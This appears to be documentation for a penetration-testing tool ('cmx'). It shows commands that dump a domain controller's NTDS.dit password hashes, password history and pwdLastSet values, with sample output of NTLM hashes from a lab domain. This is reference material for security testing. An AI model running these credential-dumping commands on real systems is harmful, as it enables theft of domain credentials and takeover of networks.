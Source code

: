 ------------------------------------------------------------------------
### \*\*\*Dump the NTDS.dit password history from target DC using methods from secretsdump.py   
You can also grab the history by adding the ntds-history switch after ntds.   
The output contains the hash(es) and user_history hash(es) of the previous passwords.  
History hashes are noted with a number to tell you how far back the password was used.  

You need to use both ntds and the ntds-history switch together.  
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds --ntds-history

Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b:::
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 Administrator_history0:500:aad3b435b51404eeaad3b435b51404ee:1c493696a7a1771b071080bf8cbc68c6:::
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$:1001:aad3b435b51404eeaad3b435b51404ee:40370f29863afcaa7598ca0b2475f942:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history0:1001:aad3b435b51404eeaad3b435b51404ee:17738b00d494f35643af0808e507e236:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history1:1001:aad3b435b51404eeaad3b435b51404ee:e5fb417d2e99a11af210451cbb804f1d:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history2:1001:aad3b435b51404eeaad3b435b51404ee:a16a596a99d5ee38ba2f33ee85fab318:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history3:1001:aad3b435b51404eeaad3b435b51404ee:b76ca93715f34c0020e7246d715fed64:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history4:1001:aad3b435b51404eeaad3b435b51404ee:7cb7bcaf56e331d91081de73b88e3c6f:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history5:1001:aad3b435b51404eeaad3b435b51404ee:dca9c242481691b6227a78aa8be3ed1e:::
```

------------------------------------------------------------------------
### \*\*\*Show the pwdLastSet attribute for each NTDS.dit account  
Password last set info is appended after the hash.   
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds --ntds-pwdLastSet

Aug.20.19 16:01:47  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b::: (pwdLastSet
=2019-06-12 09:56)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (pwdLastSet=never)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee::: (pwdLastSet=2019-0
1-17 15:11)
```